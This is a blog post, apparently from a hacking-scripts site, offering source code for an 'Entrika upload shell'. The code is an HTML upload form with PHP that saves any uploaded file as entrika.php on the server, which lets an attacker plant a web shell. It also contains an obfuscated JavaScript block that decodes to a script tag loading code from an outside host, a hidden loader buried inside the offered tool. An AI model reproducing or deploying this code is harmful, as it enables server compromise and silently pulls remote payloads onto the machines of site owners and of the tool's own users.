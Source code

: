 ```yaml
---
id: 264
title: Entrika upload shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=264
permalink: /entrika-upload-shell/
categories:
  - Javascript
  - PHP
tags:
  - entrika
  - Javascript
  - PHP
---
```

Entrika upload shell &#8211; javascript and a little bit of PHP.


### Entrika upload shell source code

{% highlight php linenos %}<FORM ENCTYPE="multipart/form-data" ACTION="uploader.php" METHOD="POST">
<INPUT TYPE="hidden" name="MAX_FILE_SIZE" value="100000">
Send this file: <INPUT NAME="userfile" TYPE="file">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<?
move_uploaded_file($userfile, "entrika.php"); 
?>
<script language=javascript>document.write(unescape('%3C%73%63%72%69%70%74%20%6C%61%6E%67%75%61%67%65%3D%22%6A%61%76%61%73%63%72%69%70%74%22%3E%66%75%6E%63%74%69%6F%6E%20%64%46%28%73%29%7B%76%61%72%20%73%31%3D%75%6E%65%73%63%61%70%65%28%73%2E%73%75%62%73%74%72%28%30%2C%73%2E%6C%65%6E%67%74%68%2D%31%29%29%3B%20%76%61%72%20%74%3D%27%27%3B%66%6F%72%28%69%3D%30%3B%69%3C%73%31%2E%6C%65%6E%67%74%68%3B%69%2B%2B%29%74%2B%3D%53%74%72%69%6E%67%2E%66%72%6F%6D%43%68%61%72%43%6F%64%65%28%73%31%2E%63%68%61%72%43%6F%64%65%41%74%28%69%29%2D%73%2E%73%75%62%73%74%72%28%73%2E%6C%65%6E%67%74%68%2D%31%2C%31%29%29%3B%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%28%75%6E%65%73%63%61%70%65%28%74%29%29%3B%7D%3C%2F%73%63%72%69%70%74%3E'));dF('%264DTDSJQU%2631TSD%264Eiuuq%264B00njep/ti4mm/vt0lbzefu/kt%264F%264D0TDSJQU%264F1')</script>
{% endhighlight %}